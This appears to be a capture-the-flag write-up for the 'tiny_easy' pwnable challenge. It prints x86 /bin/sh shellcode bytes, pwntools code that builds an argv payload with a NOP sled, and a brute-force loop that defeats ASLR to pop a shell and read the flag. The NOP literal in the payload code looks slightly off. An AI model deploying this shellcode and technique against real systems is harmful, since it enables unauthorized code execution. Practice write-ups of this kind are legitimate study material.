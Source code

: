 # Tiny Easy

```
I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.
```

```
tiny_easy@pwnable:~$ ls
flag  tiny_easy
tiny_easy@pwnable:~$ ./tiny_easy
Segmentation fault (core dumped)
```

When running the code, we get coredump right at the beginning (yay).


## Binary Information

```
$ file tiny_easy
tiny_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header

$ checksec tiny_easy
[*] '/ctfs/pwnable/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## What does the binary do

Well, not much:

```
void entry(code **param_1)

{
  (**param_1)();
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}

```

## How to exploit

We could just get a insert a shellcode by argv.
All we need to do is pass the following payload:
`<shellcode_address><shellcode>`

and that's it.

By setting a breakpoint at `0x8048056` on the remote GDB we find:
argv address is: `0xfff14fc2`


Since ASLR is enabled, each time this address will be randomized.
so, in order to bypass it, we can just build our payload as follows:

```
<address><plenty_of_nops><shellcode>
```


This way, we increase the chance that the address will be at one of the nops.
Then it will just run until it reaches the shell code.


## Crafting the payload

First thing I did was compiling a shellcode from `utils/shellcodes`.


```bash
$ cd utils/shellcodes
$ ./compile_asm.py open_shell_no_nullbytes_x86_32.asm  -o shellcode
```

Then, with python, I encoded it so I can store it in a variable in C:

```python
In [2]: from pathlib import Path
   ...: 
   ...: 
   ...: def decode_as_escaped_string(buffer: bytes) -> str:
   ...:   result = ''
   ...:   for byte in buffer:
   ...:     result += '\\x{:02x}'.format(byte)
   ...: 
   ...:   return result
   ...: 
   ...: 
   ...: shellcode = decode_as_escaped_string(Path('shellcode').read_bytes())
   ...: print(shellcode)
\xeb\x0b\x5b\x53\x6a\x0b\x58\x31\xc9\x31\xd2\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00
```


Then I could build the complete payload:

```python
In [7]: from pwn import *

In [8]: shellcode = r'\xeb\x0b\x5b\x53\x6a\x0b\x58\x31\xc9\x31\xd2\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00'

In [9]: address = decode_as_escaped_string(p32(0xfff14fc2))

In [10]: nop = r'\0x90'

In [11]: payload = address + nop * 0x18000 + shellcode

In [12]: payload = address + nop * 0x10 + shellcode
```

Then I just used this payload from my C code which passes it as argv.
(see `run_with_payload.c`)


## Pwned
```
tiny_easy@pwnable:~$ while true; do /tmp/fu/call_binary ; done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
...
Segmentation fault (core dumped)
$ ls
flag  tiny_easy
$ cat flag
What a tiny task :) good job!
```
